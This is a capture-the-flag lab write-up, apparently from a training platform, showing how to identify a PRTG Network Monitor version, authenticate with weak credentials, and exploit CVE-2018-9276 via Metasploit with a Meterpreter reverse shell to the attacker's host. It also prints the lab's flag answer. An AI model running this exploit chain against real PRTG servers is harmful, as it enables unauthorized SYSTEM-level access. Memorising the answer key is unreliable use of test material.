

# Section 15: PRTG Network Monitor

Module: 24. Attacking Common Applications

---

## Questions & Answers

### 1. What version of PRTG is running on the target?

Context:
- Visit `http://10.129.201.50:8080` and saw the version on the footer


**Answer:** `18.1.37.13946`

---

### 2. Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop.

Context:
- Login with `prtgadmin:Password123` gets successfully so got authenticated, search online the version found this CVE-2018-9276
- Exploit it via Metasploit:
```bash
┌─[eu-academy-4]─[10.10.15.102]─[htb-ac-2162140@htb-aksnyadptc-htb-cloud-com]─[~]
└──╼ [★]$ msfconsole -q
[msf](Jobs:0 Agents:0) >> use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set RHOST 10.129.201.50
RHOST => 10.129.201.50
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set LHOST 10.10.15.102
LHOST => 10.10.15.102
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set ADMIN_PASSWORD Password123
ADMIN_PASSWORD => Password123
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> check
[*] 10.129.201.50:80 - Cannot reliably check exploitability.
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> show options

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  Password123      yes       The password for the specified u
                                              sername
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:hos
                                              t:port[,type:host:port][...]. Su
                                              pported proxies: sapni, socks4,
                                              http, socks5, socks5h
   RHOSTS          10.129.201.50    yes       The target host(s), see https://
                                              docs.metasploit.com/docs/using-m
                                              etasploit/basics/using-metasploi
                                              t.html
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing c
                                              onnections
   VHOST                            no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.15.102     yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set RPORT 8080
RPORT => 8080
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> check
[*] 10.129.201.50:8080 - The target appears to be vulnerable.
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> run
[*] Started reverse TCP handler on 10.10.15.102:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2080)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (190534 bytes) to 10.129.201.50
[*] Meterpreter session 1 opened (10.10.15.102:4444 -> 10.129.201.50:52480) at 2026-10-21 03:44:09 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 3116 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>dir C:\Users
dir C:\Users
 Volume in drive C has no label.
 Volume Serial Number is 4695-E565

 Directory of C:\Users

08/16/2021  07:43 PM    <DIR>          .
08/16/2021  07:43 PM    <DIR>          ..
08/16/2021  07:43 PM    <DIR>          .NET v2.0
08/16/2021  07:43 PM    <DIR>          .NET v2.0 Classic
08/16/2021  07:43 PM    <DIR>          .NET v4.5
08/16/2021  07:43 PM    <DIR>          .NET v4.5 Classic
08/27/2021  09:50 AM    <DIR>          Administrator
08/16/2021  07:43 PM    <DIR>          Classic .NET AppPool
08/16/2021  10:12 PM    <DIR>          Public
               0 File(s)              0 bytes
               9 Dir(s)  24,519,254,016 bytes free

C:\Windows\system32>dir C:\Users\Administrator\Desktop
dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 4695-E565

 Directory of C:\Users\Administrator\Desktop

10/11/2021  11:05 AM    <DIR>          .
10/11/2021  11:05 AM    <DIR>          ..
09/28/2021  06:45 PM                21 flag.txt
               1 File(s)             21 bytes
               2 Dir(s)  24,519,237,632 bytes free

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\flag.txt
WhOs3_m0nit0ring_wH0?
```

**Answer:** `WhOs3_m0nit0ring_wH0?`

---

[Back to Module Index](./README.md)